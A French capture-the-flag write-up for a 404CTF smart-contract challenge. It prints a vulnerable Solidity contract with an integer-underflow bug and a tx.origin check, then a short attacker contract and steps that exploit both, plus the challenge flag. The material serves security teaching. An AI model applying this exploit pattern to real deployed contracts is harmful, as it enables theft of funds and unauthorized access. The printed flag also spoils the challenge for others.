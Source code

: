 ## La Guerre des contrats (1/2)

### Description

L'objectif ici est de réussir à contourner la sécurité d'un smart contract afin d'obtenir un status de membre. Le code source du contrat étant à notre disposition, libre à nous d'en profiter :
```s
pragma solidity 0.7.6;

contract FreeMoney {

    mapping (address => uint256) balances;
    mapping(address => uint256) lastWithdrawTime;
    mapping(address => bool) isHallebardeMember;
    address private boss;

    constructor() public {
        boss = msg.sender;
    }

    function getMoney(uint256 numTokens) public {
        require(numTokens < 10000);
        require(block.timestamp >= lastWithdrawTime[msg.sender] + 365 days, "Vous devez attendre un an entre chaque demande d'argent.");
        balances[msg.sender] += numTokens;
        lastWithdrawTime[msg.sender] = block.timestamp;
    }

    function reset() public {
        balances[msg.sender] = 0;
        lastWithdrawTime[msg.sender] = 0;
    }

    function transfer(address receiver, uint256 numTokens) public returns (bool) {
        require(balances[msg.sender] > 0);
        balances[msg.sender] -= numTokens;
        balances[receiver] += numTokens;
        return true;
    }    

    function enterHallebarde() public {
        require(balances[msg.sender] > 100 ether || boss == msg.sender, "Vous n'avez pas assez d'argent pour devenir membre de Hallebarde.");
        require(msg.sender != tx.origin || boss == msg.sender, "Soyez plus entreprenant !");
        require(!isHallebardeMember[msg.sender]);
        isHallebardeMember[msg.sender] = true;
    }

    function getMembershipStatus(address memberAddress) external view returns (bool) {
        require(msg.sender == memberAddress || msg.sender == boss);
        return isHallebardeMember[memberAddress];
    }
}
```
L'objectif est donc d'entrer à Hallebarde. Pour ce faire, il nous faut un nombre de token supérieur à 100 ether, mais surtout il faut remplir la condition ```msg.sender != tx.origin```. Autrement dit, [impossible d'effectuer la transation depuis son wallet, il faut passer par un contrat.](https://ethereum.stackexchange.com/questions/113962/what-does-msg-sender-tx-origin-actually-do-why)

### Exploit

On déploie on contrat sur le réseau dont le code est le suivant :
```s
pragma solidity >=0.7.0 <0.9.0;

abstract contract HlbInterface {
    function getMoney(uint256 numTokens) virtual public;
    function reset() virtual public;
    function transfer(address receiver, uint256 numTokens) virtual public returns (bool);
    function enterHallebarde() virtual public;
    function getMembershipStatus(address memberAddress) virtual external view returns (bool);
}


contract pwnHlb {

    address ckAddress = 0xb8c77090221FDF55e68EA1CB5588D812fB9f77D6; /*Adresse du contrat*/

    HlbInterface hlbInterface = HlbInterface(ckAddress);

    function hallebarde() public {
        hlbInterface.enterHallebarde();
    }
}
```

Une fois le contrat déployé, on commence par récupérer des tokens sur son wallet, avec la function ``getMoney()``. Puis on transfère un grand nombre de tokens sur l'adresse du contrat, et enfin on appelle la fonction ``hallebarde()``.
On récupère ensuite le flag : 404CTF{5M4r7_C0N7r4C7_1NC3P710N_37_UND3rF10W_QU01_D3_P1U5_F4C113}.
